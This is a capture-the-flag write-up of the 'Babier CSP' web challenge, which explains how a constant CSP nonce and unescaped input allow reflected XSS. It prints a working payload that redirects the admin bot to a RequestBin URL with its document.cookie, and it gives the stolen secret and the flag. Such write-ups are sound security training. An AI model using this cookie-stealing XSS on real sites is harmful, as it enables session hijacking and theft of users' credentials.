 # Babier CSP - (349 Solves/107 Points)

```
Baby CSP was too hard for us, try Babier CSP.

babier-csp.dicec.tf #Challenge site

https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp #Admin bot
The admin will set a cookie secret equal to config.secret in index.js. 
```

We are given an `index.js` which contains the source code for the NodeJS backend. This challenge hints quite strongly at **XSS** since we have to **steal a cookie** which has the **location of config.secret** `app.use('/' + SECRET, express.static(__dirname + "/secret"));` and presumably contains the flag.

The webpage is fairly simple, with a "`View Fruit`" link that chooses from 1 of the 4 fruits `"apple", "orange", "pineapple", "pear`, passes it through a **GET request** and renders it on the page itself as part of `${name}`.

```html
const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;
```

We quickly realise that we can put **any HTML into `${name}`**, and hence this is vulnerable to **XSS**.

However, there is also a **`nonce`** which complicates things slightly, since **only script tags which have `nonce` will be allowed to run**, and **inline running of JS is disabled**. Thankfully, the `nonce` is a **constant**: `const NONCE = crypto.randomBytes(16).toString('base64');` and we can very easily extract the nonce from the page source:

```
nonce-LRGWAXOY98Es0zz0QOVmag==
```

But, there is yet another measure we need to resolve: the **Content-Security-Policy (CSP)**.

```javascript
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```

When we try to run any fetch statements, we will realise that `default-src none;` **blocks any fetch**. However, one way to circumvent this is to use `location.href` instead to **redirect the user along with the cookie**. Hence, our payload will look something like this:

```bash
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=LRGWAXOY98Es0zz0QOVmag==%3Elocation.href=%22https://requestbin.io/1lb35x71?data=%22%2Bdocument.cookie%3C/script%3E
#URL-Encoded

#URL-Decoded
https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://requestbin.io/1lb35x71?data="+document.cookie</script>
```



Sending this via the `Admin Bot`, we get the cookie in our RequestBin:

```
secret=4b36b1b8e47f761263796b1defd80745
```

Visiting the site `https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/`, we get the flag in the source code:

```html
<!-- 

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

-->
```

